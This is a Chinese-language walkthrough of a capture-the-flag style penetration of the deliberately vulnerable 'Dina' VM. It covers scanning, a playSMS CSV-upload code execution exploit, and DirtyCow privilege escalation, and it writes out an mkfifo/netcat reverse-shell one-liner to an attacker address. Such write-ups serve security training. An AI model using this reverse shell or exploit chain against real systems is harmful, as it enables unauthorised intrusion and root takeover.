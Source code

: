 # Dina靶机渗透

## 0x00 主机发现

kali IP地址192.168.110.132

因为与攻击者kali连接在同一张网卡上，处于同一网段所以只需要做二层主机发现即可，可使用netdiscover工具主动模式下扫描网段，找到目标靶机的IP地址

![1622775385244](1622775385244.png)

## 0x01 端口/服务扫描

使用masscan工具快速扫描目标靶机开放端口

![1622775604324](1622775604324.png)

再使用nmap对靶机仅开放的80端口做细致的服务扫描

![1622775784800](1622775784800.png)

## 0x02 漏洞挖掘

既然对外提供web服务，直接访问该网站

![1622775932720](1622775932720.png)

学习的天使Dina！

主页仅有提交查询按钮，点击跳转后并无可用信息，访问nmap扫描结果中的robots.txt文件，发现存在五个网站后台文件路径，依次访问

在noting/路径网页源代码存在信息

![1622776377180](1622776377180.png)

其他文件路径下访问页面相同，均只有跳转至首页的链接

![1622776491734](1622776491734.png)

使用dirb后台目录扫描，新发现一条secure/路径，访问后得到backup.zip文件

![1622776682528](1622776682528.png)

发现解压改文件需要密码，想到之前访问nothing/文件下获得的那一组字符串，尝试一番后成功（freedom），用记事本打开解压后得到的.mp3文件，拿到后台登录的路径地址以及账户名

![1622777374749](1622777374749.png)

依旧是使用nothing/路径里获得的那一组字符串（diana），登录了网站后台

![1622777745158](1622777745158.png)

一番探索后找到了多处.csv文件上传点，在该处尝试是否存在文件上传漏洞或者寻找playSMS的漏洞

![1622777983147](1622777983147.png)

![1622882448603](1622882448603.png)

进入kali，使用searchsploit和msfconsole工具寻找playSMS的漏洞

![1622790046672](1622790046672.png)

![1622790256293](1622790256293.png)

看到在编号2是csv文件上传代码执行的漏洞，结合上文提到的csv文件上传页面，该漏洞可利用的可能性很大，就先选择该漏洞尝试

## 0x03 漏洞利用

配置好部分必需参数，成功拿到www-data账户权限

![1622791853439](1622791853439.png)

提前打开kali监听，在靶机使用一句话反弹shell

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.132 1234 >/tmp/f
```

![1622797428635](1622797428635.png)

## 0x04 提权

查看系统的内核版本以及发行版本

![1622797503523](1622797503523.png)

大于2.6.22版本，所以我们优先考虑使用脏牛提权

![1622797998683](1622797998683.png)

查看当前etc/passwd，替换成功

![1622798058977](1622798058977.png)

切换到firefart登录，提权完成

```shell
//将简单的Shell转换成为完全交互式的tty
python -c 'import pty; pty.spawn("/bin/bash")'
```

![1622881172138](1622881172138.png)

## 0x05 补充csv上传注入漏洞

该靶机还存在csv文件上传漏洞，使用searchsploit工具所查到的42044.txt文件有详细记录

![1622881667819](1622881667819.png)

创建shell.csv文件，按照漏洞利用说明填写并且来到对应的上传点

![1622882290977](1622882290977.png)

抓包修改User-Agent值，发现命令执行成功

![1622882738832](1622882738832.png)

那么就可以在kali打开监听，发送反弹shell命令

![1622883057971](1622883057971.png)